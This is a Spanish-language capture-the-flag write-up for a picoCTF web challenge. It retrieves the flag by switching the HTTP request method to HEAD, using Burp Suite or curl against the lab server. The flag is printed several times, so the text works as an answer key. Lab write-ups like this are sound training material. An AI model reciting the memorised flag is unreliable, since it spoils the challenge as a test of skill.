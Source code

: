 ### Descripción
Find the flag being held on this server to get ahead of the competition [http://mercury.picoctf.net:15931/](http://mercury.picoctf.net:15931/)

Hints:
1. Maybe you have more than 2 choices
2. Check out tools like Burpsuite to modify your requests and look at the responses

### Solución
Utilizando Burp Suite para poder penetrar en la página web.
Al interceptar la señal y hacer que reciba algún GET o POST se muestra en la aplicación la información de está señal:

```
GET /index.php? HTTP/1.1
Host: mercury.picoctf.net:15931
Accept-Language: es-419,es;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://mercury.picoctf.net:15931/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Al cambiar el método de petición actual a 'HEAD' se devuelven los encabezados de la respuestas y no el cuerpo, es decir, se obtienen otros datos de la página web que en esté caso nos muestran la bandera:

```
HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_82880908}
Content-type: text/html; charset=UTF-8
```

picoCTF{r3j3ct_th3_du4l1ty_82880908}


### Solución
Usando Webshell:
```
Sebas115-picoctf@webshell:~$ curl -I http://mercury.picoctf.net:15931/index.php
HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_82880908}
Content-type: text/html; charset=UTF-8
```

Aquí nos manda la bandera:
picoCTF{r3j3ct_th3_du4l1ty_82880908}
### Notas adicionales
Para que funcionara de manera correcta la primera solución se activó la opción para poder interceptar respuestas según el HEADER.

### Solución 3
Usando BurpSuite al mandar la señal POST al repetidor se hace el cambio de la petición a 'HEAD' y se manda para que devuelva la flag:

![[Pasted image 20250325123653.png]]

### Referencias
Herramienta: Blurp Suite
https://webshell.picoctf.org/